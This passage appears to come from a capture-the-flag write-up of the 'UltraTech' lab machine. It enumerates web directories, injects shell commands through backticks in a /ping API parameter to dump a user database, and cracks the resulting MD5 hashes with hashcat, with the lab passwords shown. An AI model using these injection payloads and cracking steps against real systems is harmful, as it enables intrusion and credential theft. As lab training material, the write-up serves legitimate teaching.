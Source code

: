 ### 2. Web Enumeration
- Visited `http://10.10.223.16:31331`—a webpage titled "UltraTech - The best of technology."
- Ran `gobuster` to enumerate directories:
  ```bash
  gobuster dir -u http://10.10.223.16:31331/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.ssh
  ```
- Results:
  ```
  /images (Status: 301)
  /css (Status: 301)
  /js (Status: 301)
  /javascript (Status: 301)
  /robots.txt (Status: 200)
  ```
- Checked `/robots.txt`—contained a sitemap (`/utech_sitemap.txt`) with:
  ```
  /index.html
  /what.html
  /partners.html
  ```
- Visited `/partners.html`—found a login page but no credentials yet.
- Analyzed `/js/api.js`:
  ```javascript
  function getAPIURL() {
      return `${window.location.hostname}:8081`
  }
  const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
  form.action = `http://${getAPIURL()}/auth`;
  ```
- Identified two API routes: `/ping` and `/auth`.

### 3. Exploit Command Injection
- Tested the `/ping` endpoint for command injection:
  ```bash
  http://10.10.223.16:8081/ping?ip=`ls`
  ```
- Output: `ping: utech.db.sqlite: Name or service not known`
- Read the database:
  ```bash
  http://10.10.223.16:8081/ping?ip=`cat%20utech.db.sqlite`
  ```
- Output:
  ```
  r00t f357a0c52799563c7c7b76c1e7543a32
  admin 0d0ea5111e3c1def594c1684e3b9be84
  ```

### 4. Crack Hashes
- Identified hashes as MD5 using `hashid`.
- Cracked with `hashcat`:
  ```bash
  hashcat -m 0 f357a0c52799563c7c7b76c1e7543a32 /usr/share/wordlists/rockyou.txt
  ```
- Results:
  - `r00t`: `n100906`
  - `admin`: `mrsheafy`
